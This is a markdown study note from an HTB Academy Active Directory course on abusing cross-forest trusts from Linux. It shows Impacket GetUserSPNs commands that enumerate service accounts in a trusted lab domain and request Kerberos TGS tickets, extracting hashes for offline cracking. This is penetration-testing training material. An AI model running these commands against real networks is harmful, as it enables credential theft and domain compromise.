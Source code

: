 # 🐧 **Cross-Forest Trust Abuse - from Linux**

## 🎯 **HTB Academy: Active Directory Enumeration & Attacks**

### 📍 **Overview**

**Cross-Forest Trust Abuse from Linux** leverages Impacket toolkit and bloodhound-python to exploit forest trust relationships from Linux attack hosts. This approach provides cross-platform capability for cross-forest Kerberoasting, foreign group membership discovery, and multi-domain compromise using Python-based tools.

---

## 🎫 **Cross-Forest Kerberoasting**

### **Attack Methodology**
- **Tool**: `impacket-GetUserSPNs` with `-target-domain` flag
- **Requirements**: Valid credentials in source domain, bidirectional trust
- **Target**: Service accounts with SPNs in trusted forest
- **Goal**: Obtain TGS tickets for offline cracking

### **Execution Workflow**

#### **SPN Enumeration**
```bash
# Enumerate SPNs in trusted domain
impacket-GetUserSPNs -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

# Expected output:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>
```

#### **TGS Ticket Extraction**
```bash
# Request TGS tickets for identified SPNs
impacket-GetUserSPNs -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

# Optional: Direct output to file
impacket-GetUserSPNs -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile cross_forest_tgs.txt

# Extract hash for offline cracking:
$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$[hash_data]
```
